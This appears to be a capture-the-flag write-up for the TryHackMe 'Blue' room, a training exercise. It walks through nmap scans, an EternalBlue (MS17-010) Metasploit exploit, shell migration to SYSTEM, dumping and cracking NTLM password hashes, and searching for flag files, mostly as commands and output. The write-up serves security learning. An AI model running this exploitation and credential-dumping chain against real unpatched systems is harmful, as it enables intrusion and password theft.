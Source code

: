 # TryHackMe Blue test

Here is how I solved the Blue test on [TryHackMe](https://tryhackme.com/room/blue), where your goal is to hack a Windows machine, find the passwords for the admins and get the 3 flags hidden in the system.

## Testing ports and vulnerabilities

Initial scan done on `scans/initial.nmap`.
```sh
$ nmap -sC -sV -oN initial.nmap 10.10.60.209
```

Complete scan done with vulscan on `scans/vulscan.nmap`.
```sh
$ nmap -sC -sV --script=vulscan/vulscan.nse -oN vulscan.nmap 10.10.60.209
```

Found vulnerability ms12-020 on port 3389 on `scans/ms12-020.nmap`.
```sh
$nmap -sV --script=rdp-vuln-ms12-020 -oN ms12-020.nmap -p 3389 10.10.60.209
```

Found vulnerability ms17-010 on port 445 on `scans/smb-vuln`, which will be used on this test.
```sh
$nmap -sV --script smb-vuln* -oN smb-vuln.nmap -p 445 10.10.60.209
```

## Abusing vulnerabilities
Found metasploit exploits on [SMB Penetration Testing (Port 445)](https://www.hackingarticles.in/smb-penetration-testing-port-445/)

Use the exploit to create a session with the machine
```sh
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.60.209
rhost => 10.10.60.209
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
After session created, pressed ctrl+z to minimize the session and converted the shell to meterpreter shell with:
```sh
sf5 exploit(multi/samba/usermap_script) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
Select the new session created to use.
`msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 3`

Check the system info.
```sh
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```
 
Open a shell and check if we have the permissions.
```sh
meterpreter > shell
Process 768 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Find a running process running on the `NT AUTHORITY\SYSTEM` user and migrate to it.
```sh
meterpreter > ps
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 1292  1284  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe

...

meterpreter > migrate 1292
[*] Migrating from 2568 to 1292...
[*] Migration completed successfully.
```

Find the users on the machine and their passwords.
```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
``` 

Use `hashdump` to dump the hashes.
```sh
msf5 exploit(multi/manage/shell_to_meterpreter) > use post/windows/gather/hashdump
msf5 post(windows/gather/hashdump) > set SESSION 4
SESSION => 4
msf5 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

Jon:"Nah boi, I ain't sharing nutting with you"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


[*] Post module execution completed
```

Check the credentials on the local database
```sh
msf5 post(windows/gather/hashdump) > creds
Credentials
===========

host          origin        service        public         private                                                            realm  private_type  JtR Format
----          ------        -------        ------         -------                                                            -----  ------------  ----------
10.10.60.209  10.10.60.209  445/tcp (smb)  administrator  aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash     nt,lm
10.10.60.209  10.10.60.209  445/tcp (smb)  guest          aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash     nt,lm
10.10.60.209  10.10.60.209  445/tcp (smb)  jon            aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d         NTLM hash     nt,lm
```
Use John the Reaper to crack the passwords with the rockyou.txt wordlist.
```sh
msf5 post(windows/gather/hashdump) > useauxiliary/analyze/crack_windows
msf5 auxiliary(analyze/crack_windows) > set CUSTOM_WORDLIST /opt/pwdlist/rockyou.txt
CUSTOM_WORDLIST => /opt/pwdlist/rockyou.txt
msf5 auxiliary(analyze/crack_windows) > run
...
[+] Cracked Hashes
==============

 DB ID  Hash Type  Username  Cracked Password  Method
 -----  ---------  --------  ----------------  ------
 3      nt         jon       alqfna22          Single

[*] Auxiliary module execution completed
```

## Finding the flags

As easy as it sounds, the flags are 3 text files that we need to read. To this I just run a simple search and `cat` the files to read it`s content.

```sh
meterpreter > search -f flag*.txt
```
